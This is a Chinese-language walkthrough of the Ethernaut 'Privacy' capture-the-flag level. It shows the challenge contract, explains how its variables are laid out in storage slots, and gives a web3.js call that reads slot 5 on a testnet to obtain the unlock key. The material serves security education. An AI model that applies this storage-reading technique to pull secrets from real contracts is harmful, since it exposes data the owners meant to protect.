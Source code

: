 # Privacy

> 这个合约的制作者非常小心的保护了敏感区域的 storage.
>
> 解开这个合约来完成这一关.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## 攻击思路

解锁合约需要得到data[2]的前16个字节。在Privacy合约中的变量

```solidity
bool public locked = true;// locked占插槽0的1个字节，插槽0剩余31字节
uint256 public ID = block.timestamp;// 插槽0中只剩31个字节，不够ID存放，所以ID存放在插槽1中，占32个字节，插槽1已满
uint8 private flattening = 10;// flattening占插槽2的1个字节，插槽2剩余31字节
uint8 private denomination = 255;// denomination占插槽2的1个字节，插槽2剩余30字节
uint16 private awkwardness = uint16(now);// awkwardness占插槽2的2个字节，插槽2剩余29字节
bytes32[3] private data;// 插槽2剩余29字节，不够data存放，data[0]占满插槽3的32个字节，data[1]占满插槽4的32个字节，data[2]占满插槽5的32个字节
```

所以data[2]在插槽5中，只需要读取到插槽5的前16个字节即可解锁合约。

## 攻击代码

```solidity
//初始化基本对象
const Web3 = require('web3');
const web3 = new Web3(new Web3.providers.HttpProvider("https://rinkeby.infura.io/v3/4d7440b583e447f7b7d5630b038e0dc7"));

web3.eth.getStorageAt("0x299B8a1409Ae37F0ABBe5470e6694cFB7b39Eb2a", 5)// 取合约地址中第5个插槽中的数据
.then(console.log);
```

只需取得到的32个字节中的前16个字节即可。



在以太坊链上, 没有什么是私有的. private 关键词只是 solidity 中人为规定的一个结构. Web3 的 `getStorageAt(...)` 可以读取 storage 中的任何信息, 虽然有些数据读取的时候会比较麻烦. 因为 一些优化的技术和原则, 这些技术和原则是为了尽可能压缩 storage 使用的空间.

这不会比这个关卡中暴露的复杂太多. 更多的信息, 可以参见 "Darius" 写的这篇详细的文章: [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)